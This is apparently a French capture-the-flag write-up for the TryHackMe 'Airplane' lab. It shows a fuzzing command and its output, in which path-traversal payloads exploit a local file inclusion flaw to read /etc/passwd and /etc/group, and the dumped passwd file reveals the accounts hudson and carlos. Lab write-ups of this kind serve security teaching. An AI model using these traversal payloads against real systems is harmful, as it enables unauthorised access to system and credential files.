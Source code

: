 ```
python3 SSF.py -u "http://airplane.thm:8000/?page=" -w lfi-payloads-wordlist.txt --ignore "Page not found" -v
```
```
Super Shitty Fuzzer (SSF) V1.1 !!!!
****************************************
- URL : http://airplane.thm:8000/?page=
- Wordlist : lfi-payloads-wordlist.txt
****************************************
[!] Checking if the target is alive...
[+] Target up and running!

[!] Fuzzing for files in the system...
[-] No response with the payload: http://airplane.thm:8000/?page=/etc/passwd
[-] No response with the payload: http://airplane.thm:8000/?page=../etc/passwd
[-] No response with the payload: http://airplane.thm:8000/?page=../../etc/passwd
[-] No response with the payload: http://airplane.thm:8000/?page=../../../etc/passwd
[+] Response from: http://airplane.thm:8000/?page=../../../../etc/passwd
Response status code: 200
Response headers: {'Server': 'Werkzeug/3.0.2 Python/3.8.10', 'Date': 'Mon, 22 Jul 2024 18:17:08 GMT, Mon, 22 Jul 2024 18:17:08 GMT', 'Content-Disposition': 'inline; filename=passwd', 'Content-Type': 'application/octet-stream', 'Content-Length': '2973', 'Last-Modified': 'Wed, 17 Apr 2024 05:05:11 GMT', 'Cache-Control': 'no-cache', 'ETag': '"1713330311.3460095-2973-1831145240"', 'Connection': 'close'}
Response content: b'root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\nbin:x:2:2:bin:/bin:/usr/sbin/nologin\nsys:x:3:3:sys:/dev:/usr/sbin/nologin\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/usr/sbin/nologin\nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\nlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\nmail:x:8:8:mail:/var/mail:/usr/sbin/nologin\nnews:x:9:9:news:/var/spool/news:/usr/sbin/nologin\nuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\nproxy:x:13:13:proxy:/bin:/usr/sbin/nologin\nwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\nbackup:x:34:34:backup:/var/backups:/usr/sbin/nologin\nlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\nirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin\nnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin\nsystemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin\nmessagebus:x:103:106::/nonexistent:/usr/sbin/nologin\nsyslog:x:104:110::/home/syslog:/usr/sbin/nologin\n_apt:x:105:65534::/nonexistent:/usr/sbin/nologin\ntss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false\nuuidd:x:107:114::/run/uuidd:/usr/sbin/nologin\ntcpdump:x:108:115::/nonexistent:/usr/sbin/nologin\navahi-autoipd:x:109:116:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin\nusbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin\nrtkit:x:111:117:RealtimeKit,,,:/proc:/usr/sbin/nologin\ndnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin\ncups-pk-helper:x:113:120:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin\nspeech-dispatcher:x:114:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false\navahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin\nkernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin\nsaned:x:117:123::/var/lib/saned:/usr/sbin/nologin\nnm-openvpn:x:118:124:NetworkManager OpenVPN,,,:/var/lib/openvpn/chroot:/usr/sbin/nologin\nhplip:x:119:7:HPLIP system user,,,:/run/hplip:/bin/false\nwhoopsie:x:120:125::/nonexistent:/bin/false\ncolord:x:121:126:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin\nfwupd-refresh:x:122:127:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin\ngeoclue:x:123:128::/var/lib/geoclue:/usr/sbin/nologin\npulse:x:124:129:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin\ngnome-initial-setup:x:125:65534::/run/gnome-initial-setup/:/bin/false\ngdm:x:126:131:Gnome Display Manager:/var/lib/gdm3:/bin/false\nsssd:x:127:132:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin\ncarlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash\nsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin\nhudson:x:1001:1001::/home/hudson:/bin/bash\nsshd:x:128:65534::/run/sshd:/usr/sbin/nologin\n'
```
On trouve bien une LFI, et 2 comptes, **hudson** et **carlos**. Continuons...
```
[+] Response from: http://airplane.thm:8000/?page=../../../../etc/group
Response status code: 200
```